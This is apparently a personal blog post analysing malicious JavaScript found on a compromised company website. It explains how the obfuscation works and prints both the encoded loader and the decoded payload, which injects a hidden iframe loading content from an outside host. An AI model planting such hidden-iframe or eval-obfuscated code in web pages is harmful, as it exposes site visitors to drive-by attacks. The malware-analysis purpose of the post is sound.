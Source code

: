 # Decoding found malware

Early last year (2013), the main website for work was compromised and (amongst other things) a malicious script was inserted. I was able to grab a copy of the scipt, albeit second hand and will go through how it works.

This is how I received the code (or I initially mucked around with it and left it like this, I can not remember).

    zz='val';
    e=this[fromCharCode["substr"](11)+zz];    
    
    
    
    
        zz='val';
        ss=[];
    
        e=this.fromCharCode(substr(11)+'val');
    
        n=&quot;3.5$3.5$51.5$50$15$19$49$54.5$48.5$57.5$53.5$49.5$54$57$22$50.5$49.5$57$33.5$53$49.5$53.5$49.5$54$57$56.5$32$59.5$41$47.5$50.5$38$47.5$53.5$49.5$19$18.5$48$54.5$49$59.5$18.5$19.5$44.5$23$45.5$19.5$60.5$5.5$3.5$3.5$3.5$51.5$50$56$47.5$53.5$49.5$56$19$19.5$28.5$5.5$3.5$3.5$61.5$15$49.5$53$56.5$49.5$15$60.5$5.5$3.5$3.5$3.5$49$54.5$48.5$57.5$53.5$49.5$54$57$22$58.5$56$51.5$57$49.5$19$16$29$51.5$50$56$47.5$53.5$49.5$15$56.5$56$48.5$29.5$18.5$51$57$57$55$28$22.5$22.5$53.5$55.5$59.5$49.5$54$57.5$22$49$54$56.5$23$25.5$22$48.5$54.5$53.5$22.5$49$22.5$25$23$25$22$55$51$55$30.5$50.5$54.5$29.5$23.5$18.5$15$58.5$51.5$49$57$51$29.5$18.5$23.5$23$18.5$15$51$49.5$51.5$50.5$51$57$29.5$18.5$23.5$23$18.5$15$56.5$57$59.5$53$49.5$29.5$18.5$58$51.5$56.5$51.5$48$51.5$53$51.5$57$59.5$28$51$51.5$49$49$49.5$54$28.5$55$54.5$56.5$51.5$57$51.5$54.5$54$28$47.5$48$56.5$54.5$53$57.5$57$49.5$28.5$53$49.5$50$57$28$23$28.5$57$54.5$55$28$23$28.5$18.5$30$29$22.5$51.5$50$56$47.5$53.5$49.5$30$16$19.5$28.5$5.5$3.5$3.5$61.5$5.5$3.5$3.5$50$57.5$54$48.5$57$51.5$54.5$54$15$51.5$50$56$47.5$53.5$49.5$56$19$19.5$60.5$5.5$3.5$3.5$3.5$58$47.5$56$15$50$15$29.5$15$49$54.5$48.5$57.5$53.5$49.5$54$57$22$48.5$56$49.5$47.5$57$49.5$33.5$53$49.5$53.5$49.5$54$57$19$18.5$51.5$50$56$47.5$53.5$49.5$18.5$19.5$28.5$50$22$56.5$49.5$57$31.5$57$57$56$51.5$48$57.5$57$49.5$19$18.5$56.5$56$48.5$18.5$21$18.5$51$57$57$55$28$22.5$22.5$53.5$55.5$59.5$49.5$54$57.5$22$49$54$56.5$23$25.5$22$48.5$54.5$53.5$22.5$49$22.5$25$23$25$22$55$51$55$30.5$50.5$54.5$29.5$23.5$18.5$19.5$28.5$50$22$56.5$57$59.5$53$49.5$22$58$51.5$56.5$51.5$48$51.5$53$51.5$57$59.5$29.5$18.5$51$51.5$49$49$49.5$54$18.5$28.5$50$22$56.5$57$59.5$53$49.5$22$55$54.5$56.5$51.5$57$51.5$54.5$54$29.5$18.5$47.5$48$56.5$54.5$53$57.5$57$49.5$18.5$28.5$50$22$56.5$57$59.5$53$49.5$22$53$49.5$50$57$29.5$18.5$23$18.5$28.5$50$22$56.5$57$59.5$53$49.5$22$57$54.5$55$29.5$18.5$23$18.5$28.5$50$22$56.5$49.5$57$31.5$57$57$56$51.5$48$57.5$57$49.5$19$18.5$58.5$51.5$49$57$51$18.5$21$18.5$23.5$23$18.5$19.5$28.5$50$22$56.5$49.5$57$31.5$57$57$56$51.5$48$57.5$57$49.5$19$18.5$51$49.5$51.5$50.5$51$57$18.5$21$18.5$23.5$23$18.5$19.5$28.5$5.5$3.5$3.5$3.5$49$54.5$48.5$57.5$53.5$49.5$54$57$22$50.5$49.5$57$33.5$53$49.5$53.5$49.5$54$57$56.5$32$59.5$41$47.5$50.5$38$47.5$53.5$49.5$19$18.5$48$54.5$49$59.5$18.5$19.5$44.5$23$45.5$22$47.5$55$55$49.5$54$49$32.5$51$51.5$53$49$19$50$19.5$28.5$5.5$3.5$3.5$61.5&quot;.split(&quot;$&quot;);
    
        for(i=0; i &lt; 585; i++){
            ss=ss+String.fromCharCode(2*(1+1*n[i]));
        }
    
        e(ss);


The code itself is quite straightforward and relies on some fun obfuscation to (presumably) get around detection.

`51.5$53$49$19$50$19.5$28.5$5.5$3.5$3.5$61.5&quot;.split("$");`


Is simply a "$" delimited list which contains a bunch of numbers of which about half end in .5.


    for(i=0; i &lt; 585; i++){
        ss=ss+String.fromCharCode(2*(1+1*n[i]));
    }

This is the fun bit: for each number in the list, (starting from the inside out) multiply by one (`1*n[i]`) doing nothing and then add 1 (5.5 becomes 6.5) and then multiply that by 2. Multiplying by two removes the .5 and so we are guarenteed to integers which is useful as we then run these through the function fromCharCode (this part is messed up, I think b/c I mucked it up when it was discovered) which converts said integers into their unicode representations. Unicode representations that look (in this case) like code. Code which can be eval()'d (made from the first couple lines via simple concatenation and also mucked up by me). We end up with:

    if (document.getElementsByTagName('body')[0]){
        iframer();
    } else {
        document.write("&lt;iframe src='http://mqyenu.dns05.com/d/404.php?go=1' width='10' height='10' style='visibility:hidden;position:absolute;left:0;top:0;'&gt;&lt;/iframe&gt;");
    }
    function iframer(){
        var f = document.createElement('iframe');f.setAttribute('src','http://mqyenu.dns05.com/d/404.php?go=1');f.style.visibility='hidden';f.style.position='absolute';f.style.left='0';f.style.top='0';f.setAttribute('width','10');f.setAttribute('height','10');
        document.getElementsByTagName('body')[0].appendChild(f);
    }"

Which inserts an invisible IFrame and runs whatever was returned by the (now defunct) page.

Because I wanted to test the screen recording software that comes with Cinnamon I recorded playing around with this. Enjoy.

<video width="640" height="360" controls data-poster="https://assets.themetacity.com/video/foundmalwaredecodeposter.svg">
    <source src="https://assets.themetacity.com/video/foundmalwaredecode.webm" type='video/webm;codecs="vp8, vorbis"' data-fullscreen="true">
    <source src="https://assets.themetacity.com/video/foundmalwaredecode.mp4" type='video/mp4;codec="avc1"' data-fullscreen="true">
</video>